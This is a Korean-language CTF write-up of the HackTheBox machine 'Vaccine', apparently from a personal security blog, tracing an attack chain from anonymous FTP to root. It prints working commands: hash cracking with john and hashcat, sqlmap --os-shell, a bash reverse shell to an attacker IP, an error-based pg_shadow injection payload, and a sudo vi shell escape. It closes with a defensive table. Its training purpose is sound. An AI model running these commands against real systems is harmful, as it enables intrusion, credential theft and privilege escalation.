




+++
title = '[HTB] - Vaccine'
date = 2026-05-01T15:00:00+09:00
draft = false

categories = ["HTB", "pentesting", "write-up"]
tags = ["HTB", "write-up", "SQL Injection", "sqlmap", "OSCP", "OWSAP ZAP", "sudo"]
description = "HackTheBox Vaccine 풀이 — FTP 익명 로그인으로 얻은 backup.zip을 크랙해 admin MD5 해시를 복원하고, PostgreSQL SQL Injection을 sqlmap --os-shell로 RCE까지 끌어올린 뒤 sudo vi의 GTFOBins 기법으로 root를 획득한다."
+++

# HTB - Vaccine (Retired Machine)

## Overview

| 항목 | 내용 |
|------|------|
| OS | Linux (Ubuntu 20.04) |
| 난이도 | Very Easy |
| 포트 | 21 (FTP), 22 (SSH), 80 (HTTP) |
| 공격 체인 | FTP 익명 로그인 → backup.zip 획득 → zip2john + john 크랙 → index.php MD5 해시 → hashcat 크랙 → admin 로그인 → SQL Injection 발견 → sqlmap --os-shell → 리버스 쉘 → sqlmap --passwords → postgres 패스워드 크랙 → sudo -l → vi GTFOBin → root |

---

## 배경 지식

### The Concept of Attacks — 4가지 범주

이번 머신의 공격 체인 전체를 **Source → Process → Privileges → Destination** 프레임워크로 읽으면 각 단계의 의미가 훨씬 명확해진다. 이 프레임워크는 어떤 서비스의 취약점이든 동일한 시각으로 분석할 수 있게 해준다.

| 범주 | 의미 |
|------|------|
| **Source** | 공격이 시작되는 지점 — 공격자의 입력, 업로드 파일, 네트워크 요청 |
| **Process** | 취약한 대상 — 입력을 검증 없이 처리하는 프로그램/함수 |
| **Privileges** | 해당 Process가 실행되는 권한 수준 |
| **Destination** | 공격의 최종 결과물이 도달하는 곳 |

하나의 Destination이 다음 단계의 새로운 Source가 되는 구조가 바로 **공격 체인(Attack Chain)** 이다. 이번 머신에서 이 패턴이 반복해서 등장한다.

---

### PostgreSQL Error-Based SQL Injection

SQL Injection 중에서도 **Error-Based** 기법은 DB의 에러 메시지를 의도적으로 유발해서 그 안에 데이터를 실어 보내는 방식이다.

동작 원리:

```sql
' AND 5405=CAST((CHR(113)||...)||(SELECT passwd FROM pg_shadow)||... AS NUMERIC)-- XJWu
```

1. `CAST(문자열 AS NUMERIC)` — 문자열을 숫자로 변환하려 하면 PostgreSQL은 반드시 에러를 발생시킨다
2. 에러 메시지 안에 SELECT 결과(`passwd`)가 포함되어 HTTP 응답에 출력된다
3. 공격자는 에러 응답을 읽기만 하면 데이터를 획득할 수 있다

```
ERROR: invalid input syntax for type numeric: "qzkpvq1qjpkqmd52d58e0637ec1e94cd..."
                                                          ↑
                                                  여기에 실제 해시값이 포함됨
```

`pg_shadow`는 PostgreSQL의 시스템 카탈로그 테이블로, DB 유저의 해시된 패스워드(`passwd` 컬럼)를 저장하고 있다. 일반 유저는 접근할 수 없지만 현재 세션이 DBA(superuser) 권한이라면 조회가 가능하다.

---

### GTFOBin — vi에서 root shell을 여는 원리

vi는 단순한 텍스트 편집기처럼 보이지만, 내부적으로 **외부 명령어를 실행하는 기능**을 내장하고 있다.

```
:!<명령어>
```

`:!` 접두사는 vi가 현재 프로세스의 권한으로 외부 쉘 명령을 실행하도록 지시한다. vi 자체가 하나의 프로세스이고, 그 프로세스가 자식 프로세스(쉘)를 `fork()`하는 구조다.

```
vi 프로세스 (root 권한으로 실행 중)
    │
    └── :!/bin/bash 입력
           │
           └── fork() → /bin/bash 실행
                              ↑
                     부모(vi)가 root이므로
                     자식(bash)도 root 권한 상속
```

따라서 `sudo /bin/vi <파일>`로 root 권한 vi를 열고, 내부에서 `:!/bin/bash`를 입력하면 **root 권한의 bash**가 열린다. 이런 식으로 본래 목적과 다르게 권한 상승에 악용될 수 있는 바이너리 목록을 [GTFOBins](https://gtfobins.github.io)에서 확인할 수 있다.

---

## 공격 체인 요약

```
nmap → 21, 22, 80 확인
  → FTP 익명 로그인 → backup.zip 다운로드
    → zip2john → john 크랙 → 패스워드: 741852963
      → index.php 분석 → admin MD5 해시 추출
        → hashcat 크랙 → admin : qwerty789
          → 웹 로그인 → dashboard.php
            → 검색창 SQL Error 발견 → SQLi 취약점 확인
              → sqlmap --os-shell → 리버스 쉘 (postgres)
                → sqlmap --passwords → postgres : P@s5w0rd!
                  → sudo -l → (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
                    → sudo vi → :!/bin/bash → root shell
```

---

## 정찰 (Enumeration)

### 포트 스캔

```bash
sudo nmap 10.129.95.174 -Pn -n --min-rate 2000
```

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

FTP, SSH, HTTP 세 포트가 열려 있다. FTP에 익명 로그인이 허용되어 있는지 먼저 확인해본다. 익명 로그인이 되는 FTP는 자격증명 없이 파일을 가져올 수 있는 출발점이 된다.

---

## 자격증명 획득 1 — FTP → admin 계정

### FTP 익명 로그인

**[ Source → Process → Privileges → Destination ]**
- **Source**: 공격자의 FTP 익명 접속 요청
- **Process**: vsFTPd의 anonymous 인증 처리 — 자격증명 검증 없이 허용
- **Privileges**: FTP 서비스 권한
- **Destination**: 서버 내 파일(backup.zip) 획득

```bash
ftp 10.129.95.174
# Name: anonymous
# Password: (엔터)
```

```
230 Login successful.
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
```

익명 로그인이 허용되어 있었고, `backup.zip`을 발견해서 바로 내려받았다.

### backup.zip 크랙

```bash
unzip backup.zip
# [backup.zip] index.php password:  ← 패스워드가 걸려 있음
```

zip 파일에 패스워드가 걸려 있다. `zip2john`으로 zip 파일 헤더에서 해시를 추출하고, 그 해시를 john에 넘겨 사전 공격을 수행한다.

```bash
zip2john backup.zip > zip_hash.txt
john zip_hash.txt
```

```
741852963        (backup.zip)
```

### index.php 분석 → MD5 해시 추출

압축을 풀면 `index.php`와 `style.css`가 나온다. `index.php` 안에 서버측 인증 로직이 그대로 담겨 있다.

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

로그인 처리가 DB 조회 없이 하드코딩된 MD5 해시와 단순 비교하는 방식이다. 여기서 설계상 결함이 두 가지 보인다.

1. 패스워드 해시가 소스코드에 **평문으로 하드코딩** — 소스를 얻는 순간 오프라인 크랙이 가능해진다
2. MD5는 솔트(salt) 없이 사용되면 **사전 공격과 레인보우 테이블에 극히 취약**하다

### MD5 해시 크랙

```bash
hashcat -m 0 2cb42f8734ea607eefed3b70af13bbd3 /usr/share/wordlists/rockyou.txt
```

```
2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

```
admin : qwerty789
```

---

## 취약점 분석 및 공격

### SQL Injection 발견

admin 자격증명으로 로그인하면 `dashboard.php`로 리다이렉트된다. Car catalogue를 검색하는 기능이 있는데, 검색창에 `'` 하나를 입력하자 에러가 발생했다.



```
ERROR: unterminated quoted string at or near "'"
LINE 1: Select * from cars where name ilike '%'%'
                                                ^
```

에러 메시지가 내부 SQL 쿼리 구조를 그대로 노출하고 있다. `ilike`는 PostgreSQL의 대소문자 무시 LIKE 연산자다. 입력값이 검증 없이 쿼리에 직접 삽입되고 있다는 것이 확인됐으니 SQL Injection 취약점으로 판단할 수 있다.

**[ Source → Process → Privileges → Destination ]**
- **Source**: `search` 파라미터에 삽입된 SQL 페이로드
- **Process**: 웹 애플리케이션의 쿼리 생성 로직 — 입력 검증 없음
- **Privileges**: PostgreSQL superuser 권한 (sqlmap 결과 DBA임을 확인)
- **Destination**: DB 데이터 탈취, OS 명령 실행으로 이어짐

### sqlmap --os-shell

**[ Source → Process → Privileges → Destination ]**
- **Source**: sqlmap이 자동 생성한 SQLi 페이로드
- **Process**: PostgreSQL의 `COPY ... FROM PROGRAM` 기능 — superuser에게 OS 명령 실행을 허용
- **Privileges**: postgres superuser → OS 명령이 postgres 계정 권한으로 실행됨
- **Destination**: 서버 OS에서 명령 실행 가능 → 리버스 쉘

```bash
sqlmap -u "http://10.129.95.174/dashboard.php?search=" \
       --os-shell \
       --cookie="PHPSESSID=kl6vhf3egf7ogjrhd5psavjhgv"
```

```
[INFO] the back-end DBMS is PostgreSQL
[INFO] testing if current user is DBA
[INFO] retrieved: '1'    ← superuser 확인
[INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
```

sqlmap이 내부적으로 `COPY ... FROM PROGRAM` 구문을 통해 OS 명령 실행 채널을 만든다. 다만 `--os-shell`은 매 명령마다 HTTP 요청을 새로 보내는 구조라 상태가 유지되지 않고 TTY도 없다. 리버스 쉘을 바로 띄운다.

### 리버스 쉘 연결

```bash
# 공격자 머신에서 리스너 준비
nc -lvp 4444

# os-shell에서 실행
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.15.140/4444 0>&1'
```

```
connect to [10.10.15.140] from (UNKNOWN) [10.129.95.174] 43806
postgres@vaccine:/var/lib/postgresql/11/main$ id
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
```

postgres 유저로 리버스 쉘을 획득했다.

---

## Foothold

```bash
# 쉘 안정화
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
postgres@vaccine:/var/lib/postgresql/11/main$
```

권한 상승을 위해 가장 먼저 `sudo -l`을 확인하려 했지만, `sudo -l`은 현재 유저의 패스워드를 요구한다. postgres 유저의 패스워드를 어딘가에서 확보해야 한다.

`/etc/postgresql` 설정 파일 탐색과 `find`로 자격증명 탐색을 시도했지만 유의미한 결과가 없었다. 이전에 확보한 admin 패스워드(`qwerty789`) 재사용도 실패했다. 결국 선택지를 정리해보면 SQLi를 통해 DB 내부의 자격증명을 직접 덤프하는 것밖에 남지 않는다.


> [!NOTE] Official Write-up
> 공식 write-up을 확인해보니 `/var/www/html/dashboard.php` 파일 내에 db connection을 얻어오는 코드에 존재하는 postgres 자격증명을 얻어서 권한상승을 하는 방법도 있다는것을 확인했다.


### postgres 패스워드 획득 — sqlmap --passwords

**[ Source → Process → Privileges → Destination ]**
- **Source**: sqlmap의 `pg_shadow` 조회 페이로드
- **Process**: PostgreSQL Error-Based SQLi — `CAST` 에러 메시지에 데이터를 실어 출력
- **Privileges**: superuser (`pg_shadow` 접근 가능)
- **Destination**: postgres 유저의 MD5 해시 탈취 → 오프라인 크랙

```bash
sqlmap -u "http://10.129.95.174/dashboard.php?search=" \
       --passwords \
       --cookie="PHPSESSID=kl6vhf3egf7ogjrhd5psavjhgv"
```

sqlmap이 전송하는 실제 페이로드는 이런 형태다:

```sql
' AND 3591=CAST(
  (CHR(113)||CHR(107)||CHR(112)||CHR(106)||CHR(113))||
  (SELECT COALESCE(CAST(passwd AS VARCHAR(10000))::text,(CHR(32)))
   FROM pg_shadow)::text||
  (CHR(113)||CHR(113)||CHR(112)||CHR(107)||CHR(113))
AS NUMERIC)-- bbHJ
```

`pg_shadow` 테이블의 `passwd` 컬럼(MD5 해시값)을 읽어 `CAST(... AS NUMERIC)` 에러 메시지 안에 실어서 HTTP 응답으로 돌려받는 방식이다. OWASP ZAP으로 실제 요청/응답을 확인하면 에러 본문에 MD5 해시가 그대로 포함되어 있는 것을 볼 수 있다.





```
[INFO] retrieved: 'postgres'
[INFO] retrieved: 'md52d58e0637ec1e94cdfba3d1c26b67d01'
[INFO] cracked password 'P@s5w0rd!' for user 'postgres'
```

```
postgres : P@s5w0rd!
```

---

## 권한 상승 (Privilege Escalation)

### sudo -l 확인

```bash
sudo -l
# Password: P@s5w0rd!
```

```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

이 한 줄을 정확히 읽는 방법:

```
(ALL)  →  모든 유저(root 포함)로 실행 가능
/bin/vi /etc/postgresql/11/main/pg_hba.conf  →  단, 이 파일을 vi로 여는 것만 허용
```

처음에는 "root 권한으로 vi를 실행할 수 있다"는 것만 보고 `sudo /bin/vi`를 그대로 실행했다가 거부됐다. sudo rule은 명령어와 인자를 함께 매칭하기 때문에, 파일 인자 없이 vi만 실행하는 것은 허용 범위가 아니다. `pg_hba.conf`를 명시해야 한다.

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

### vi GTFOBin → root shell

**[ Source → Process → Privileges → Destination ]**
- **Source**: vi 내부에서 입력한 `:!/bin/bash`
- **Process**: vi의 외부 명령 실행 기능 (`:!` 명령)
- **Privileges**: vi가 root 권한으로 실행 중 → fork된 자식 프로세스도 root 권한 상속
- **Destination**: root shell 획득

vi가 열리면 파일 내용은 중요하지 않다. 다음을 입력한다:

```
:!/bin/bash
```

vi가 root 권한으로 실행되고 있기 때문에 fork된 bash 역시 root 권한을 그대로 받는다.



```bash
root@vaccine:/var/lib/postgresql# id
uid=0(root) gid=0(root) groups=0(root)
```

root shell을 획득했다.

---

## 배운 것들

### 이번 머신의 핵심 깨달음

공격 체인 전체가 **하나의 Destination이 다음 Source가 되는 연쇄 구조**로 이루어져 있었다.

```
FTP 익명 접속 (Source)
  → backup.zip 획득 (Destination)
    → 크랙 후 admin 자격증명 (새로운 Source)
      → SQLi 발견 (Process)
        → postgres OS 접근 (Destination)
          → sqlmap --passwords (새로운 Source)
            → 패스워드 해시 크랙 (Destination)
              → sudo -l → vi GTFOBin (Process/Privileges)
                → root shell (최종 Destination)
```

`sudo -l`에서 `(ALL) /bin/vi /etc/...`를 처음 봤을 때, 파일 경로가 고정되어 있어서 "파일 하나만 열 수 있는 게 뭐가 위험하지?"라고 생각했다. vi 자체가 외부 명령 실행 기능을 가진 프로그램이라는 걸 몰랐기 때문이다. GTFOBins가 존재하는 이유가 바로 이것이다 — 겉으로 무해해 보이는 바이너리도 root 권한으로 실행되면 쉘 탈출의 통로가 된다. 앞으로 `sudo -l`에서 바이너리를 발견하면 GTFOBins를 먼저 조회하는 것을 습관으로 삼아야 한다.

또한 `sudo /bin/vi`(파일 인자 없음)가 거부됐을 때 이유를 바로 파악하지 못했다. sudo rule은 **명령어 전체(인자 포함)**를 정확히 매칭한다는 점을 기억해야 한다.

### 공격 체인 각 요소 정리

| 요소 | Source | Process | Privileges | Destination |
|------|--------|---------|------------|-------------|
| FTP 익명 로그인 | 공격자 | vsFTPd anonymous 인증 (무검증) | FTP 서비스 | backup.zip 획득 |
| zip2john + john | backup.zip 해시 | john 사전 공격 | 로컬 | zip 패스워드 |
| hashcat MD5 크랙 | index.php 해시 | hashcat 사전 공격 | 로컬 | admin 자격증명 |
| SQLi (--os-shell) | search 파라미터 | PostgreSQL COPY FROM PROGRAM | postgres superuser | OS 명령 실행 → 리버스 쉘 |
| sqlmap --passwords | SQLi 페이로드 | Error-Based, pg_shadow 조회 | postgres superuser | 패스워드 해시 → 크랙 |
| vi GTFOBin | `:!/bin/bash` | vi 외부 명령 실행 기능 | root (sudo) | root shell |

### 다음에 비슷한 상황을 만나면

- FTP 포트 발견 → 익명 로그인 즉시 시도
- zip/rar 패스워드 보호 → `zip2john` / `rar2john` → `john` 또는 `hashcat`
- 소스코드에서 MD5 해시 발견 → `hashcat -m 0`으로 크랙 시도
- 웹 검색창에 `'` 입력 후 SQL Error → SQLi 확인 → sqlmap으로 자동화
- `--os-shell` 진입 후 → 즉시 리버스 쉘로 전환 (상태 유지 불가, TTY 없음)
- PostgreSQL superuser 컨텍스트 → `--passwords`로 `pg_shadow` 덤프
- `sudo -l`에서 바이너리 확인 → [GTFOBins](https://gtfobins.github.io) 조회
- `sudo /bin/vi <파일>` → vi 내부에서 `:!/bin/bash`

### 방어 관점 (Blue Team)

| 공격 벡터 | 범주 | 방어 방법 |
|---------|------|---------|
| FTP 익명 접속 | Source 제한 | 익명 접속 비활성화, 민감 파일 FTP 경유 금지 |
| 패스워드 하드코딩 | Process 결함 | 환경변수 또는 암호화된 설정 파일 사용 |
| MD5 단순 해싱 | Process 결함 | bcrypt/argon2 + 솔트 사용 |
| SQL Injection | Process 결함 | Prepared Statement, 입력 검증 |
| PostgreSQL superuser 남용 | Privileges 과다 | 최소 권한 원칙, 웹 앱 전용 DB 계정 사용 |
| sudo vi 허용 | Privileges 과다 | GTFOBins 위험 바이너리 sudo 허용 금지 |
| 자격증명 재사용 | Process 결함 | 서비스별 고유 패스워드 정책 |

---

## 관련 글

- [HTB - Sau](/posts/sau/) — `sudo -l`에서 찾은 바이너리를 GTFOBins로 권한 상승하는 동일 계열(systemctl + less).
- [HTB - Oopsie](/posts/oopsie/) — 평문 자격증명을 OS 계정에 재사용해 전환하는 같은 패턴.
- [HTB - Sense](/posts/sense/) — 노출된 버전을 단서로 공개 익스플로잇을 매핑하는 흐름.
